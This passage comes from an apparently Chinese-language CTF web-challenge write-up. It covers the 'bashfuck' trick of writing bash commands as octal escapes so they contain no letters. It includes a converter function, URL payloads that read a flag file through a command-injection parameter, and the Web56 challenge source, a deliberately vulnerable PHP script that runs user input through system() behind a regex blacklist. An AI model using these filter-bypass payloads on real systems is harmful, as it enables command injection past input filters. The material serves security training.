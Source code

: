 ### 思路三：bashfuck—bash无字母命令执行

https://probiusofficial.github.io/bashFuck/ 在线生成

转换脚本

``````
def common_otc(cmd):
    payload = '$\''
    for c in cmd:
        if c == ' ':
            payload += '\' $\''
        else:
            payload += '\\' + get_oct(c)
    payload += '\''
    return info(payload)
``````



使用

```
$'\154\163'
```

会执行`ls`

故payload是

```
/?c=$'\143\141\164'%20*
/?c=$'\164\141\143' $'\146\154\141\147\56\160\150\160'
```

## Web56

题目：

``````php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
``````


[ERROR]: could not find driver